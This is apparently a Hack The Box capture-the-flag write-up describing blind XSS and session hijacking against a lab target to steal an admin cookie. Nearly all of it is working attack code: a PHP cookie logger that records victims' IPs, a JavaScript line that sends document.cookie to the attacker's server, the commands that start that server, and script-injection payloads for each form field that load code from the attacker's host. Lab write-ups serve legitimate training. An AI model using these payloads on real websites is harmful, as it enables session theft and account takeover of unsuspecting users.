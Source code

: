 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### 2. Identify Vulnerable Field
**Form**: http://10.129.31.89/hijacking/index.php

**Fields Tested:**
fullname: "><script src=http://10.10.14.179/fullname></script>
username: "><script src=http://10.10.14.179/username></script>
password: "><script src=http://10.10.14.179/password></script>
email: "><script src=http://10.10.14.179/email></script>
imgurl: "><script src=http://10.10.14.179/imgurl></script>

**Process:**
Injected each payload into one field at a time, others set to **test**.
Checked server logs for requests (e.g., GET /fullname).
Vulnerable field identified when a request appeared.

